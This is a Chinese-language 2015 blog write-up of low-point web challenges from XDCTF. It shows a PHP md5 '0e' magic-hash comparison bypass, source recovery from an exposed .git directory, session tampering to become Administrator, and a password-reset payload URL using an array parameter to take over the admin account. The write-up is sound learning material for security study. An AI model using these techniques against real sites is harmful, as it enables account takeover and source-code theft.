 title: 2015XDCTF低分web题writeup
date: 2015-10-03 14:11:30
tags: CTF
categories: H-blog 
---
![xdctf](/img/xdctf.png)
<!--more-->
国庆两天, XDCTF, 质量和难度和上次的NSCTF都不是一个层次的...

## web1 100
`index.php~` 搞出源码:
```
<?php
$test=$_GET['test'];
$test=md5($test); 
if($test=='0') { 
    print "flag{xxxxxx}"; 
} else 
    print "you are falied!"; 
print $test;
echo "tips:知道原理了，请不在当先服务器环境下测试，在本地测试好，在此测试poc即可，否则后果自负"; 
?>
```
这题黑魔法啊!!! 真是学习了
`md5('240610708') = 0e462097431906509019562988736854`
而 `'0e462097431906509019562988736854' == '0'`

## web1 200
这题是大JAVA的题目,  可惜并不会,, 就是有个一个SessionExample界面, 可以进行设置session, (为啥需要这种东西?)
然后设置, login=true, user=Administrator

## web2 系列..
P神出的代码审计4连套, PS: P神写的站, 给你代码你也日不动~~
只搞定两题..

### web2 200
第一步是搞到源码, 题目里说了用git管理源码, 所以应该是.git 泄露了... 访问 /.git 403, 果然是....

去百度后下载了 `rip-git.pl` ,拖/.git, 拖下来了, 却不能还原源码, 估计有些重要的没拖下来..

接下来是:
```
$ git checkout master
$ git checkout -f
```
搞出来了个 `README.md`
根据里面的提示, 去网站上搞到了个 /.git/refs/tags/1.0
然后把 /.git/refs/heads/master 的hash 值用 /tags/1.0 里的hash替换
再 `$ git checkout -f`
然后就搞到源码了, 第一个200的flag就在index.php里..

### web2 100
存在强制修改任意用户密码漏洞, 管理员邮箱在首页: xdsec-cms@xdctf.com
```
payload: 
http://xdsec-cms-12023458.xdctf.win/index.php/auth/resetpwd?email=xdsec-cms@xdctf.com&verify[1]=aa
```
修改密码后登录, get 100 flag...

后面就日不动了,,, 毕竟P神...
XDCTF的web题质量都挺高的...学到了很多..